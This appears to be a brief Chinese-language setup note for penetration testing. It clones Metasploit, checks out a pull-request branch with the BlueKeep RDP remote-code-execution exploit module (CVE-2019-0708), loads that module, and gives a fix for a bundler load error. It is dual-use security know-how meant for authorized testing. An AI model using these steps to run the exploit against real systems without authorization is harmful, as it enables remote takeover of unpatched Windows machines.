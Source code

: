 ```shell
sudo apt-get install libsqlite3-dev libpq-dev libpcap-dev -y
git clone https://github.com/rapid7/metasploit-framework.git
cd metasploit-framework
git fetch origin pull/12283/head:bluekeep
git checkout bluekeep
gem install bundler && bundle
./msfconsole
msf5 > use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
```

> 如果出现如下错误:
```shell
/usr/local/bundle/bin/bundle:104:in `load': cannot load such file -- /usr/local/lib/ruby/gems/2.4.0/gems/bundler-1.16.1/exe/bundle (LoadError)

	from /usr/local/bundle/bin/bundle:104:in `<main>'
```
可以尝试使用如下命令修复:
```shell
gem update --system
gem pristine bundler
```
# 这是一个测试

> 仅在Debian测试过

> 参考: https://pentest-tools.com/blog/bluekeep-exploit-metasploit/ 
